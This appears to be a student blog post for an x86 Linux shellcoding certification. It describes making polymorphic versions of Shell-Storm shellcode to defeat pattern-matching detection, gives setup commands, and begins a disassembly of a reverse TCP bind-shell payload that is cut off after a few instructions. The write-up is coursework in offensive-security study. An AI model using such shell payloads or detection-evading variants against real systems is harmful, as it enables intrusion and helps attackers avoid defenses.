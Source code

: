 ```yaml
---
layout: post
title: SLAE32 Assignment6
---
```

![Alt](https://bohansec.com/assets/SHELLCODING32.png "Pentester Academy")

This blog post has been created for completing the requirments of the SecurityTube (Pentester Academy) x86 Assembly Language and Shellcoding on Linux certification:

[x86 Assembly Language and Shellcoding on Linux](https://www.pentesteracademy.com/course?id=3){:target="_blank"}

Student ID: SLAE-1562

### Objects
{% highlight js %}
Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching

The polymorphic versions cannot be larger 150% of the existing shellcode

Bonus points for making it shorter in length than original

{% endhighlight %}

### Prerequisite

* Install libemu
{% highlight js %}
git clone https://github.com/buffer/libemu
sudo apt-get install autoconf
sudo apt-get install libtool
autoreconf -v -i
./configure --prefix=/opt/libemu
autoreconf -v -i
sudo make install
{% endhighlight %}

* Obtain the Kali (x86) Linux 2020.3 
{% highlight js %}
https://images.kali.org/virtual-images/kali-linux-2020.3-vmware-i386.7z
{% endhighlight %}

### First Shellcode - reversetcpbindshell  (92 bytes)

[Shellcode link](http://shell-storm.org/shellcode/files/shellcode-849.php){:target="_blank"}

Original Shellcode: 

{% highlight js %}
$ objdump -D reversetcpbindshell -M intel

reversetcpbindshell:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:       31 c0                   xor    eax,eax
 8048062:       31 db                   xor    ebx,ebx
 8048064:       31 c9                   xor    ecx,ecx
 8048066:       31 d2                   xor    edx,edx
 8048068:       b0 66                   mov    al,0x66
 804806a:       b3 01                   mov    bl,0x1
 804806c:       51                      push   ecx
 804806d:       6a 06                   push   0x6
 804806f:       6a 01                   push   0x1